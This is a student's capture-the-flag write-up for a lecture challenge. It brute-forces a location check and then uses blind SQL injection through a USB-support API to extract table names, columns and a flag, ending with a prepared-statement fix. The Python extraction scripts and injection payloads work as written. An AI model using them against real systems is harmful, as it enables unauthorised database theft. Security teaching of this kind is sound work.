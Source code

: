 **Name:** flofriday

**Points:** Not yet graded 

<hr>

Mining Mind
===========

Overview
--------

[mining mind](https://miningmind.hackthe.space/) is a website for a product to mine cryptocoins in your sleep. The website also has a demo page were users in the right region can mine crypto with any attached USB device.

Vulnerability
-------------

The SQL injection vulnerability is in the `/api/usb` route of the application to which the user sends the information of their USB device via [`POST` request](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST) and which returns a bool if  the device is supported.

Asuming the webapplication is written in [PHP](https://www.php.net/) the vulnerable code probably looks something like:

```php
<?php
$json = file_get_contents('php://input');
$obj = json_decode($json);
$db = new PDO(CONNECTION_STRING, DB_USER, DB_PASS);
$query = "SELECT * FROM interfaces WHERE product ='" . $obj->product_name . "' AND manufacturer ='" . $obj->manufacturer_name ."';";
$sth = $db->query($query);

...
```

Exploitation
------------

During the exploitation I was on a Discord call with █████, █████ and █████, we explored the challenge together and discussed approaches created our payload on our own and never shared the flag.

On the [website](https://miningmind.hackthe.space/) I first clicked on "Try the demo!" and after allowing the webiste to access my location I received the error "You are too far away". Next, I installed [Burp Suite](https://portswigger.net/burp) and quickly found out that the application sends the latidtude and the logititude to the route `/api/auth` via a POST request. 

My first attempt was to fake my location to one in London, since the challenge description mentions a paper written in there. Howerver, this and a couple other attempts to guess the right location failed so in the end I wrote myself a  [Python](https://www.python.org/) script in a [Jupyter Notebook](https://jupyter.org/) to bruteforce the latitude and logtitude:

```python
import requests
import math

headers = {
    'authority': 'miningmind.hackthe.space',
    'content-type': 'application/json',
}

# Bruteforce a axis
# Either lat or lon must be None 
def bruteforce(start, end, lat, lon):
    best = None
    best_d = math.inf
    force_lon = lon == None

    for round in range(5):
        step = (end - start) / 10

        # Search 10 points in the sample space and save the best
        for i in range(10):
            guess = start + step*i

            if force_lon:
                lon = guess
            else:
                lat = guess

            data = f'{{"latitude": {lat}, "longitude": {lon} }}'
            res = requests.post('https://miningmind.hackthe.space/api/auth', headers=headers, data=data)
            if res.status_code != 200:
                print(f'ERROR: {res}')
                return

            if res.json()['distance'] < best_d:
                best = guess
                best_d = res.json()['distance']

        # Decrease sample space
        start = best - step
        end = best + step

    return (best, best_d)

# Bruteforce the logtiitude
(lon, _) = bruteforce(-180, 180, 0, None)
print(f'Best longitude: {lon}')

# Bruteforce the latitude
(lat, dist) = bruteforce(-90, 90, None, lon)
print(f'Best latitude: {lat}')

print('---- Results ----')
print(f'Longitude: {lat}, Latitude: {lon}, Remaining distance: {dist}')
```

This script first bruteforces the longitude and then the latitude. To bruteforece the longitude it starts first with the complete search space `-180` to `180` and samples `10`points in that range. The point with the shortest distance will be saved and in the next round we decrease the search space to 1 step size before and after the best result. In total we will do 5 of  those rounds (4 times decreasing the samplespace) and then we will do the same for the latitude.

In the end the script will print the line:

```
Longitude: -157.7472, Latitude: -45.4176, Remaining distance: 3.91
```

Now we can try the demo again and in Burp intercept the request to `/api/auth` and change the longitude and latitude to the values we bruteforced. With that we will receive a response that sets us a session cookie and if we reload the page, we get asked to select an USB device (Note: this only works in [Chrome](https://www.google.com/chrome/index.html) as this is the only browser that supports the [WebUSB API](https://developer.mozilla.org/en-US/docs/Web/API/USB)). However, whatever device we are selecting we allways get an error message that the device is not supported.

Next, I found out that the website sends the selected USB device to the `/api/usb` endpoint. The sever then responds with a JSON `{"supported": false}`. Since the challenge is tagged with SQL I tried to create a sql injection in the request payload:

```json
{"product_name":"'union Select 'flotschi' #","manufacturer_name":"flofriday"}'
```

The server now responded with supported set to `true`, and the website now showed me that mining is in progress but nothing else changed. On the up side we now have an SQL vulnerability and we get a boolean from the sql database which is set if a query, we can define, returns one or more rows. With this feedback we can beginn to leak data from the database.

> On the upside satzt anpassen

This task is simply impossible to do per hand so I wrote this script to leak all non internal tables. At that point I knew already that the database is a MySQL database from some errormessages which leaked the error code and only MySQL has those codes. The script concatinates all tables to a single string and then tries to bruteforce that string.

```python
import requests
import string

headers = {
    "authority": "miningmind.hackthe.space",
    "Feature-Policy": "usb *;",
    "content-type": "application/json",
    "Cookie": "session=eyJ0ZXN0ZXIiOnRydWV9.E23igA.27fDUiaCczMYeoXyP1LxKLOQ-JY",
}


def exec_query(query):
    result = ""
    quit = False
    while not quit:
        for c in string.ascii_letters + string.digits + ",{}_":
            maybe = result + c
            data = f"""{{"product_name":"'UNION {query(maybe)}#", "manufacturer_name":"me"}}"""
            response = requests.post(
                "https://miningmind.hackthe.space/api/usb",
                headers=headers,
                data=data,
            )
            if response.status_code != 200:
                print(
                    f'Error {response.status_code} when trying "{maybe}"\n{response.text}'
                )
                return

            if not response.json()["supported"]:
                continue

            print(maybe)
            result = maybe
            break

        else:
            print("Nothing more found :(")
            quit = True


exec_query(lambda maybe: f"""
SELECT 1 FROM information_schema.tables 
WHERE
    (SELECT GROUP_CONCAT(table_name SEPARATOR ',') 
    FROM information_schema.tables
    WHERE NOT table_schema = 'information_schema') 
    LIKE '{maybe}%'""".replace("\n", "")
)
```

With this we receive the following tables `brains,interfaces,locations`. In the callenge description is the following sentence:

>  Exploit this [website](https://miningmind.hackthe.space) to get the flag out of my brain!

So a `brains` table sounds more than promising. Before we can read rows from the brains table we first need to know what columns are in the table. Therefore I could still use the function from the last script, simply with a new lambda function:

```python
exec_query(lambda maybe: f"""
SELECT 1 FROM information_schema.tables 
WHERE
    (SELECT GROUP_CONCAT(column_name SEPARATOR ',') 
    FROM information_schema.columns
    WHERE table_name = 'brains') 
    LIKE '{maybe}%'""".replace("\n", "")
)
```

Which leaks the columns `id,model`. The flag propably isn't in the `id` column so I started to leak the model columns with the same technique. However there seamed to be **a lot** of padding in the first row, so I changed my script to search for a substring that starts with `WUT` as all flags in this lecture must start with that prefix.

```python
exec_query(lambda maybe: f"""
SELECT 1 FROM information_schema.tables 
WHERE
    (SELECT model FROM brains) 
    LIKE BINARY '%WUT{maybe}%'""".replace("\n", "")
)
```

With this we can finally leak the flag which is `WUT{n3x7_1ll_s3ll_my_s0ul_4_NFTs}` and an amazing [NFT meme](https://www.youtube.com/watch?v=mrNOYudaMAc).

Solution
--------

The problem here (as with all SQL injections) is that the application doesn't sanitize the input correctly. This could be prevented by using prepared statements, where the DBMS escapes the input for us.
